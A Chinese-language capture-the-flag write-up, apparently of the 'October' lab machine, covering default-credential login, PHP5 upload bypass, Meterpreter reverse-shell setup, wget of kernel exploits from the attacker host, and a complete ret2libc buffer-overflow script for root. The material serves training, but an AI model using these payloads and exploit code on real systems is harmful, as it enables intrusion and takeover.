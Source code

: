```yaml
---
title: october（弱密码+文件上传）
categories:
- training
tags:
- training
- cms
- linux os
---
```

10.10.14.7

```
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 79:b1:35:b6:d1:25:12:a3:0c:b5:2e:36:9c:33:26:28 (DSA)
|   2048 16:08:68:51:d1:7b:07:5a:34:66:0d:4c:d0:25:56:f5 (RSA)
|   256 e3:97:a7:92:23:72:bf:1d:09:88:85:b6:6c:17:4e:85 (ECDSA)
|_  256 89:85:90:98:20:bf:03:5d:35:7f:4a:a9:e1:1b:65:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Potentially risky methods: PUT PATCH DELETE
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: October CMS - Vanilla
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
第一步，确定版本漏洞和exp
searchsploit Vanilla，

searchsploit october，没有直接可用exp

第二步，得知有很多exp，于是检查目标的详细版本
```
nikto -h 10.10.10.16

Server: Apache/2.4.7 (Ubuntu)
+ Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.21
```
手动翻网页，没有找到版本信息，于是dirbuster fuzz一下目录。

结果是目录很干净，除了论坛、用户、博客三个目录，有用信息不多。

http://10.10.10.16/forum

第三步，分析exp
searchsploit -m exploits/php/webapps/25720.txt
leafpad /root/Desktop/16/25720.txt

---
找到了后台：`http://10.10.10.16/backend/backend/auth/signin`
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/6.PNG)

admin/admin，登陆成功

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/5.PNG)
尝试文件上传，txt可以上传，php不可以，PHP不可以。

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/7.PNG)
但是php5可以，说明是黑名单的限制方式。

## 获得一个shell
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/8.PNG)

#### info enum:
```
os: Ubuntu 14.04 (Linux 4.4.0-78-generic)
whoami: www-data
exist user: syslog:x:101:104::/home/syslog:/bin/false
      		harry:x:1000:1000:Harry Varthakouris,,,:/home/harry:/bin/bash
```
## trying1：检查web config文件，查找口令
```
grep -R pass .
OctoberCMSPassword!!

python -c 'import pty; pty.spawn("/bin/bash")'
```
获取bash shell，尝试用口令登陆。登陆farry用户失败。

## trying2: 尝试数据库登陆
发现数据库以mysql用户运行。
```
ps -ef | grep mysql
mysql     1197     1  0 Feb18 ?        00:02:16 /usr/sbin/mysqld

netstat -an
unix  2      [ ACC ]     STREAM     LISTENING     10089    /var/run/mysqld/mysqld.sock
```
## trying3: 上传sh脚本
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/1.PNG)
有gcc，于是可以尝试内核漏洞
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/2.PNG)

```
wget http://10.10.14.7/dirty.c
wget http://10.10.14.7/dirtyc0w.c

wget http://10.10.14.7/chocobo_root 
执行结果：i have no offsets for this kernel version..
```
执行了三个exp，都失败了

## trying4: 上传msf反弹payload

msfconsole -r job.rc 执行监听
```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.14.7
set LPORT 7766
run
```
将载荷发送到目标机，并且运行。
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.10.14.7" LPORT=7766 -f elf -o 123`

![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/11.PNG)

```
[+] 10.10.10.16 - exploit/linux/local/apport_abrt_chroot_priv_esc: The target is vulnerable.
[+] 10.10.10.16 - exploit/linux/local/netfilter_priv_esc_ipv4: The target appears to be vulnerable.  编译时缺少模块libc6-dev-i386，失败
[+] 10.10.10.16 - exploit/linux/local/pkexec: The target service is running, but could not be validated. 
[*] Post module execution completed

set SESSION 1
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.14.7
set LPORT 8899
show options
run 失败
```
## writeup: suid程序以及python exploit编写
之前用脚本检查过suid权限，但是/usr/local/bin/ovrflw，并不是常见的suid 提权程序，于是被我忽略了...
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/3.PNG)

ovrflw是一个二进制程序，有缓冲区溢出漏洞，可惜我还不会写利用程序。
`cd /usr/local/bin;./ovrflw`

![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/4.PNG)

overflow.py
```
import struct, subprocess
libcBase = 0xb75eb000
systemOffset = 0x00040310
binShOffset = 0x00162bac
libcAddress = struct.pack("<I", libcBase+systemOffset)
exitAddress = struct.pack("<I", 0xd34db33f)
binShAddress = struct.pack("<I", libcBase+binShOffset)
payload = "\x90"*112
payload += libcAddress
payload += exitAddress
payload += binShAddress
i = 0
while True:
	i += 1
	if i%10 == 0:
		print "Attempts: " + str(i)
	subprocess.call(["/usr/local/bin/ovrflw", payload])
```
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/02-23/9.PNG)

## 总结
编写python脚本，利用段错误，通过缓冲区溢出得到root权限，需要很多基础，不是一时半会儿能学会的。继续加油吧


